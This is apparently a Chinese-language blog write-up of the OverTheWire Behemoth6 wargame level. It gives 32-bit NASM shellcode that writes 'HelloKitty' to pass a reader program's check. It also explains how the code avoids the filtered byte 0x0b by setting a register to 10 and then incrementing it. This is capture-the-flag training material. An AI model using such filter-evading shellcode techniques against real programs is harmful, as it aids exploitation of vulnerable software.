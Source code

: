 ```yaml
---
title: Behemoth6
author: rk700
layout: post
redirect_from: /article/2014/07/06/behemoth6
tags:
  - OverTheWire
  - exploit
---
```

这道题会在behemoth6_reader中执行用户提供的shellcode。我开始想的是直接就在那里把密码读取了，但reader没有setuid，所以权限不够。这样的话就只能写一个输出HelloKitty的shellcode了。代码如下

{% highlight nasm %}
BITS 32

xor eax, eax
push eax
push word 0x7974
push 0x74694b6f
push 0x6c6c6548 ;HelloKitty
mov ecx, esp

mov ebx, eax
mov edx, eax
mov bl, 1
mov dl, 10
inc edx
mov al, 4;write
int 0x80
{% endhighlight %}

注意reader会检查shellcode中是否包含0x0b，而那正好是字符串的长度，作为write的第3个参数。于是我是先赋为10，再加一。

编译保存为shellcode.txt，然后可得到密码